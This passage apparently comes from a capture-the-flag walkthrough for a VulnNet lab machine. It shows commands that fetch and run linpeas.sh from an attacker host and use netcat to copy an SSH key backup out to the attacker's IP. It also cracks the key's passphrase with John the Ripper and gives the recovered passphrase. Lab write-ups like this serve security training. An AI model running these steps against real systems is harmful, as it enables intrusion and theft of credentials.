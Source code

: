   ```sh
  # we can attempt basic enum using Linpeas

  # start server in attacker machine and get linpeas.sh
  python3 -m http.server

  # in reverse shell
  wget http://10.65.14.87:8000/linpeas.sh

  chmod +x linpeas.sh

  ./linpeas.sh
  ```

* From the 'Backup files' output after running ```linpeas```, we have a file ```/var/backups/ssh-backup.tar.gz```, owned by the 'server-management' user - we can have a look at this:

  ```sh
  # in attacker machine
  nc -lvp 8888 > ssh-backup.tar.gz

  # in reverse shell
  cd /var/backups

  ls -la

  nc 10.14.78.65 8888 -w 3 < ssh-backup.tar.gz
  # this transfers file from victim to attacker machine

  # in attacker machine
  ls -la
  # we have file with same size now

  tar -xvzf ssh-backup.tar.gz
  # we get a id_rsa file

  ls -la id_rsa

  ssh server-management@vulnnet.thm -i id_rsa
  # this requires a passphrase
  # we can try cracking id_rsa

  ssh2john id_rsa > hash_id_rsa

  john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa
  # we get the passphrase "oneTWO3gOyac"

  ssh server-management@vulnnet.thm -i id_rsa
  # we can login with the cracked passphrase now
  ```

* Now that we have ssh access as 'server-management' user, we can get the user flag

* While doing basic enumeration, we have a couple of PDF files in the '/home/server-management-Documents' directory - we can have a look at it:
